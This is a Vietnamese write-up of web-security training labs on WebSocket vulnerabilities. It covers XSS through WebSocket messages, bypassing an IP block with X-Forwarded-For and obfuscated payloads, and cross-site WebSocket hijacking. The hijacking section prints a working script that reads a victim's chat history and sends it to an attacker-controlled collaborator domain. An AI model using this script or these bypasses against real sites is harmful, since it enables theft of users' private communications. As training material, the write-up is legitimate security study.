# WebSockets security vulnerabilities
## Khái niệm:
WebSockets là 1 giao thức kết nối 2 chiều giữa server và client thông qua TCP (port 80 và 443). Websockets được sử dụng cho các công việc đòi hỏi độ trễ thấp như cập nhật dữ liệu trực tuyến.

Sự ra đời của WebSockets nhằm mục đích tiệm cận khả năng truyền tải của TCP, lược bỏ đi các Header rườm ra của HTTP để giảm bớt lượng dữ liệu truyền tải, nhằm giảm độ trễ dữ liệu, đồng thời thêm các khả năng giúp tăng tốc độ truyền tải thông tin mà vẫn duy trì đặc tính bảo mật dữ liệu.



Do hoạt động trên tầng TCP, nên WebSockets vẫn yêu cầu bắt tay 3 bước giữa Client và Server. Sau bước xác thực, WebSockets cho phép truyền tải thông tin 2 chiều giữa Server và Client một cách liên tục mà không cần phải Reload mỗi khi thông tin thay đổi. WebSockets được thiết kế để có thể tương thích với HTTP, tức là 2 giao thức này có thể kết hợp và hoạt động trên cùng 1 trang Web.

Về bản chất, WebSockets chỉ có cách truyền tải dữ liệu khác với HTTP, nên mọi lỗ hỏng mà HTTP có, WebSockets đều sẽ có. 

## Lab
### Lab: Manipulating WebSocket messages to exploit vulnerabilities
Thao tác với WebSocket trên BurpSuite cũng tương tự với HTTP, ta cũng có công cụ track lịch sử các messages, các công cụ khác như Intruder hay Repeater cũng đều có khả năng tương tác với WebSocket. 

Lab này sử dụng WebSocket ở chức năng LiveChat, khi mà toàn bộ lịch sử cuộc trò chuyện chỉ có thể thấy được ở WebSocket history



Để sử dụng Repeater, ta chọn message được gửi tới Server, ở đây là `"message":"abcdef"`. Sau khi chuyển vào Repeater, vì đây là thuộc về lỗi client, nên ta sẽ sử dụng payload đơn giản của XSS: ``



### Lab: Manipulating the WebSocket handshake to exploit vulnerabilities
Tương tự với lab trên, nhưng khi này nếu ta sử dụng cùng payload như trên, hệ thống sẽ chặn IP truy cập:



Khi này, ta có thể bypass filter bằng cách sử dụng header X-Forwarded-For điều hướng sang một địa chỉ khác, không nhất thiết phải là IP hợp lệ:





Đối với input payload, Ta vẫn có thể bypass filter bằng cách obfuscated các kí tự:



### Lab: Cross-site WebSocket hijacking
Đối với lab này, ta không thể sử dụng XSS thông thường được do server tự động encode `<>`:



Trong số các message gửi tới server, ta thấy message `READY` có chức năng trả về tất cả các tin nhắn gửi tới server:



Do không có CSRF token ở Request, nên ta có thể gửi Request WebSocket tới nạn nhân để đọc tin nhắn 2 chiều của nạn nhân với server:
```HTML
<script>
var wsocket = new WebSocket('<WebSocket-URL>');
wsocket.onopen = function(){
 wsocket.send("READY");
};
wsocket.onmessage = function(event){
 fetch("https://<BurpCollaborator-domain>", {method: 'POST', mode:'no-cors', body:event.data});
};
</script>
```






